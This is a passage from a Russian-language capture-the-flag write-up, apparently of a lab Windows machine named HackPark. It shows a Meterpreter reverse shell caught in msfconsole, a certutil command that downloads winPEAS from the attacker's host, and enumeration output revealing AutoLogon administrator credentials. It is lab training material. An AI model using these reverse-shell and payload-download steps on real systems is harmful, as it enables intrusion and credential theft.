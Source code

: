 ```bash
07/04/2025  06:01 AM            73,802 meter-5555.exe
08/22/2013  08:39 AM    <DIR>          Music
08/22/2013  08:39 AM    <DIR>          Pictures
08/22/2013  08:39 AM    <DIR>          Videos
               1 File(s)         73,802 bytes
               7 Dir(s)  39,125,962,752 bytes free
```

Выполняю на жертве **.\meter-5555.exe** и ловлю meterpreter в msfconsole
```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.21.104.16:5555 
[*] Sending stage (176198 bytes) to 10.10.50.38
[*] Meterpreter session 1 opened (10.21.104.16:5555 -> 10.10.50.38:49271) at 2025-07-04 09:04:45 -0400

meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

Загружаю winPEAS
```bash
certutil -urlcache -f http://10.21.104.16:8888/winPEASx64.exe winPEASany.exe
```

Нахожу такой сервис
![x_service](screenshots/02.service.png)

Среди прочего
```powershell
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  4q6XvFES7Fdxs
```

```bash
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  4q6XvFES7Fdxs
```
